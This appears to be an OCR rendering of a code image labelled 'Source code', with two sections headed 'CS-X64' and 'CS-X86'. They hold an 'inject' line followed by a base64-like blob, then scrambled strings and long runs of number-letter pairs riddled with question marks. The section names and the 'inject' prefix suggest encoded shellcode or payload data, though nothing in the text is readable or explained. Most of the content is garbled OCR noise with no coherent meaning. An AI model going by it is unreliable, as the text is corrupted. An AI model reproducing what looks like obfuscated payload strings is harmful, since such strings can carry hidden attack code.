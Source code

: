 # CS-X64

injectFaBD4+/2iYxyQO9cTKfxapknB5P31jHP+tXqq38hNc2rIDU7UwVcPocHehVXBF8E7llbLyh4tUKKBfD5PQPWxvBlp8w+xTuUGsBTuw==ebszg

# CS-X86

adminfwpum@%%wthugq#twf/HcqgrtDmxjy-lfp/esff/lcwu/hefp/nfu1#uhn?aqh=gdjejeson

ewgth45|2,????q????;6,y;??10??,X;14????,T;18???,f??;22,B??;26,L?;30??,o;?34??,???O????;38,???Q;???4????2??,v;46????,I;5????0,z???;???54,4;??58,??5;?62,8;???66,O;????70,??,;7?4,?D;78,???H???;82,??G;86????,???Q;9?0,D;9??4,K;???98,X?;102??,C;1???06,???t;110??,l;1????1?4,H;?118,l?;12??2,H?;???126,4??;1????3????0,a???;13????4,g;1?38,p?;14??2???,???D;??14??6,???d???;150?,j???;154???,h;1?58,??e???;1????62,??1;???16?6,u;1????70,????z;1???74,d??;????178,T????;|u??y????Hqms??gy????i???ntXz?tmTt?ELf???w5vBJ???HDLOv?Y??odB?bOsHf???QPzz?vHf????oIgB????n????z??tTN4??IzB5???j?L???S8My5??ODr????v,YK????oDr??xmHd????meG??z1?e???QwDE???DrM?fKNt???zX?vKZCW???uttDf??wlvD???PHo?5t?lAbw??H4???eW???4d????tnaB??kfg?UPt????p???zxH????D1????rzdwO??Kj??nH????DhjM?xeNrb????1AI????tu0K????tz???P?Mrdq?p????=???T=fwsed
